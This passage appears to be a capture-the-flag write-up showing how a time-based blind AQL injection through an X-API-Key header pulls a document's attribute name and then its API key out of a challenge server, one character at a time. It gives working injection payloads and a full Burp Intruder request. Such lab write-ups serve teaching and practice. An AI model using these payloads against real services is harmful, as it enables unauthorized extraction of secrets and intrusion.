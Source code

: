 We can then start guessing the first letter of the first attribute using Burp's intruder tool by setting
the X-API-Key to `'OR SUBSTRING(NTH(ATTRIBUTES(doc), 0), 0, 1) == '' OR SLEEP(5) AND 'a'=='a`.
This means the full query running will be:
```SQL
FOR doc IN config
FILTER doc.<key_name_omitted> == '' OR SUBSTRING(NTH(ATTRIBUTES(doc), 0), 0, 1) == '' OR SLEEP(5) and 'a'=='a'
...
RETURN doc
```

If the first letter of the first attribute in the document is '', the OR clause will short-circuit and return true before the SLEEP part. Otherwise it will SLEEP.


!!! info "Why doesn't the query just work if it returns true?"
    I assume part of the redacted query part is checking that only one `doc` is returned, or is
    timing out if more than one is returned. Unfortunately we don't seem to be able to just use 
    `LIMIT` or subqueries to resolve this, since so many functions are blocked.

### Execute the plan

Using Burpsuite's intruder with the sniper mode, we can run the following request with a simple character
payload (abcdefghijklmnopqrstuvwxyz0123456789-_)
```
GET /api/v1/frostbitadmin/bot/e550ccc8-c8cf-4a58-ab68-3b527e14179d/deactivate?debug=1 HTTP/2
Host: api.frostbit.app
Accept-Encoding: gzip, deflate, br
X-Api-Key: ' OR SUBSTRING(NTH(ATTRIBUTES(doc), 0), 0, 2) == 'd$$' OR SLEEP(5) AND 'a'=='a
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded


```

!!! warning "Speeding up the Sleep"
    Making 38 requests when consecutively is pretty slow if they're all sleeping 5 seconds.
    If you're smarter than I was, you'll realise this and experiment to see that SLEEP(1) is
    enough before you begin the iteration.

Each time we find a letter (as noted by the faster response time and the smaller response body), we
add it to our current string, and increment the `SUBSTRING(..., 2)`.
Eventually, this shows us the attribute name: `deactivate_api_key`

That's probably the right attribute, so we don't need to start iterating through others (fortunately - sleep is slow, even if you're smart enough to minimise it!)

We can take the same approach to get the value of the key as above, but adapting our string to be
`' OR SUBSTRING(doc.deactivate_api_key, 0, 1) == '' OR SLEEP(1) AND 'a'='a`
